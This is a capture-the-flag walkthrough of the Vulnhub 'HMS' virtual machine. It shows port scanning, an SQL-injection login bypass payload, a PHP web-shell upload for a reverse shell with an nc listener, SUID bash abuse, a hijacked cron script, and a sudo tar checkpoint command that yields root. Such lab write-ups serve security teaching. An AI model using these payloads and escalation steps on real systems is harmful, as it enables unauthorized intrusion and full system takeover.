


# HMS-Writeup 
HMS is an easy machine from Vulnhub by Nivek.<br />
I've tested this machine on VirtualBox.<br />
Link to the machine: [https://www.vulnhub.com/entry/hms-1,728/](https://www.vulnhub.com/entry/hms-1,728/).
<br />

## Identify the target
I'm using the machine in host-only network. Here, I am using netdiscover to detect the IP address of the target.
```
netdiscover -i vboxnet0 -r 10.10.10.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                      
                                                                                                    
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 102                                    
_____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
 10.10.10.1      08:00:27:fc:33:6c      1      42  PCS Systemtechnik GmbH                           
 10.10.10.10     08:00:27:56:f8:fd      1      60  PCS Systemtechnik GmbH
```
<br />

## Scan Open Ports

We have to look for open ports on the target.
```
nmap -sV -sC -p- -oN nmap.log 10.10.10.10

21/tcp   open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.10.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3c:fc:ed:dc:9b:b3:24:ff:2e:c3:51:f8:33:20:78:40 (RSA)
|   256 91:5e:81:68:73:68:65:ec:a2:de:27:19:c6:82:86:a9 (ECDSA)
|_  256 a7:eb:f6:a2:c6:63:54:e1:f5:18:53:fc:c3:e1:b2:28 (ED25519)
7080/tcp open  http    Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/7.3.29 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/7.3.29 mod_perl/2.0.11 Perl/v5.32.1
| http-title: Admin Panel
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```
<br />

We can access the FTP service anonymously.
```
ftp 10.10.10.10

Connected to 10.10.10.10.
220 (vsFTPd 3.0.3)
Name (10.10.10.10:a7): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        118          4096 Jul 26 19:27 .
drwxr-xr-x    2 0        118          4096 Jul 26 19:27 ..
226 Directory send OK.
ftp>
```
<br />

There is nothing in there.
<br />

## Examine Port 7080 - Apache


<br />

We have a login page, but no registeration link, and we don’t have any credentials.<br />
Let's use `Burp` to intercept the request.<br />
Send it to repeater, modified email with `'`.


<br />

The field email in this form suffers from an SQL injection. 
```
' or 1=1 #
' or 1=1 -- 
```
<br />

You can also use developer tools to modify the request.<br />
However, there is a validation in the input field that it must be an `email`. Thus we have to remove it to inject our payload. So, inspect the email field and remove `type="email"`.
<br />
And we have access to the admin panel.


<br />

After we login, we see a directory for uploaded images in the source.


<br />

And a path for the settings that are commented.


<br />

When we visit `setting.php`, we see an image uploading feature.


<br />

## Reverse Shell

Let's upload a shell. There is a web shells in kali by default: `ls /usr/share/webshells`, Or you can find one online: [revshells](https://www.revshells.com/),  [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)<br />

I Changed the IP address and port, and started listening on the same port.
```
nc -lnvp 5555
```
<br />

We have a dummy shell, let's upgrade it.


<br />

There are two users on the machine `eren` and `nivek`. We need to switch to a real user so let us check the SUID binaries.


<br />

> Reference: [https://gtfobins.github.io/gtfobins/bash/#suid](https://gtfobins.github.io/gtfobins/bash/#suid)
<br />

So, we can use it to get an instance of bash shell as user `eren`.
```
/usr/bin/bash -p
```
<br />

We still user `daemon` but `eren` is the effective user for this process only, this means that we don't have access to sudo permissions.


<br />

After a while of digging around, I checked the cron jobs, and there is a backup script in the eren's directory. 


<br />

This script runs every 5 minutes and is owned by `eren`. we can modify it to get another reverse shell as user `eren` on port `1234`.


<br />

In five minutes I got a shell with user eren.


<br />

## Privilege Escalation

Let's check the sudo permission:
```
sudo -l

Matching Defaults entries for eren on nivek:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eren may run the following commands on nivek:
    (root) NOPASSWD: /bin/tar
```
<br />

> Searching in gtfobins: [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo)
<br />

tar gives us a root shell
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
<br />

and we're root.


